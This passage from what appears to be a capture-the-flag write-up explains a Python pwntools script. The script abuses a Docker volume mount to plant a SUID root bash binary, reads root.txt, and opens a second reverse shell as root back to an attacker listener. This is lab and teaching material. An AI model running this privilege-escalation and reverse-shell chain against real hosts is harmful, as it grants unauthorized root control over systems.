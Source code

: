 - Abuse volume mounts

The previous code snippet is inside a function called `abuse_volume_mounts`:

```python
def abuse_volume_mounts(sh, host_ip: str, user: str, password: str):
    sh.sendlineafter(b'# ', f'rm /home/{user}/bash'.encode())
    sh.sendlineafter(b'# ', f'script /dev/null -c bash'.encode())
    sh.sendlineafter(b'# ', f'export TERM=xterm'.encode())

    sh.sendlineafter(b'# ', f'ssh {user}@{host_ip}'.encode())
    sh.sendlineafter(b'password: ', password.encode())
    log.info(f'SSH to {host_ip} using credentials "{user}:{password}"')

    sh.sendlineafter(b'$ ', f'cp /bin/bash /home/{user}/bash'.encode())
    sh.sendlineafter(b'$ ', b'exit')
    sh.sendlineafter(b'# ', f'chown root:root /home/{user}/bash'.encode())
    sh.sendlineafter(b'# ', f'chmod 4755 /home/{user}/bash'.encode())

    sh.sendlineafter(b'# ', f'ssh {user}@{host_ip}'.encode())
    sh.sendlineafter(b'password: ', password.encode())
```

The Docker container is mounting a volume at `/home/augustus`. The exploitation consists of copying `/bin/bash` into that directory and changing its permissions as `root` from the Docker container.

Finally, we can use `bash -p` to access as `root`:

```python
sh.sendlineafter(b'$ ', f'/home/{user}/bash -p'.encode())
sh.sendlineafter(b'# ', f'cat /root/root.txt'.encode())
sh.recvline()
root_txt = sh.recvline().decode().strip()[-32:]
log.success(f'user.txt: {user_txt}')
log.success(f'root.txt: {root_txt}')
```

- Reverse shell as `root` using SUID `bash`:

Here we could have used `sh.interactive()` but the output is not correctly shown (maybe because of the pseudo-TTY). The workaround is to use a second reverse shell using the SUID `bash` binary (I used an alias to reuse the `rev_shell` function):

```python
sh.sendlineafter(b'# ', f'alias bash="/home/{user}/bash -p"'.encode())
log.info(f'Set: alias bash="/home/{user}/bash -p"')

root_sh = listen(lport + 1)
Thread(
    target=sh.sendlineafter, args=(b'# ', rev_shell(lhost, lport + 1))
).start()
root_sh.wait_for_connection()
root_sh.sendlineafter(b'# ', f'rm /home/{user}/bash'.encode())
root_sh.recvline()
root_sh.interactive(prompt='')
```

